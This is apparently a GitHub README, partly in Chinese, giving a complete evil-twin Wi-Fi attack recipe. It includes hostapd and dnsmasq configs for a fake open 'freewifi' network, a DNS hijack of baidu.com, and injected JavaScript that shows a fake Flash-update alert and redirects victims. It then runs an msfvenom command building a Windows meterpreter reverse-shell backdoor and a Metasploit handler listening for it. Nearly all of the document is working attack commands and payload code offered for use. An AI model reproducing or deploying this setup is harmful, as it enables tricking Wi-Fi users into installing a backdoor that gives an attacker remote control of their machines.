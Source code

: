 # Evil_Twin

# 安装:  
apt install hostapd  

apt install dnsmasq  

# //配置网卡规则  
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE  
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT    
//设置网关IP以及子网掩码  
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0  
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1  
# //开启流量转发  
echo 1 > /proc/sys/net/ipv4/ip_forward  

# dnsmasq.conf  
interface=wlan1mon  
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h  
dhcp-option=3, 192.168.1.1  
dhcp-option=6, 192.168.1.1  
server=8.8.8.8  
address=/baidu.com/192.168.1.1  
log-queries  
log-dhcp  
listen-address=127.0.0.1  

# hostapd.conf:  
interface=wlan1mon  
driver=nl80211  
ssid=freewifi  
hw_mode=g  
channel=6  
macaddr_acl=0  
ignore_broadcast_ssid=0  

# index.html:  
<head>  
<meta charset='utf-8'>  
<script src="http://192.168.1.1/new.js"> </script>  
</head>  

# new.js:  
window.alert = function(name){  
    var iframe = document. createElement("IFRAME");  
    iframe.style.display="none";  
    iframe.setAttribute("src",'data:text/plain,');  
    document. documentElement.appendChild(iframe);  
    window.frames [0].window.alert(name);  
    iframe.parentNode.removeChild(iframe);  
    }  
    alert( "您的FLASH版本过低，尝试升级后访问该页面! ");  
    window. location.href="http://192.168.1.1/flash";  


# 下载flash模板  
git clone https://github.com/r00tSe7en/Fake-flash.cn  

 
# 生成后门:  
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o /root/awa.exe  

# 启动服务
service apache2 start //启动web服务器  
hostapd hostapd.conf //创建wifi  
dnsmasq -C dnsmasq.conf -d //dns服务  
python3 -m http.server 8080 //后门下载  

# 开启监听
msfconsole //启动  
use exploit/multi/handler    //使用监听  
set payload windows/x64/meterpreter/reverse_tcp   //设置payload  
set lhost 192.168.1.1 //设置IP  
set lport 4444  //设置端口  
run //启动  


# iptables出现问题解决方法:https://zhuanlan.zhihu.com/p/118632728  
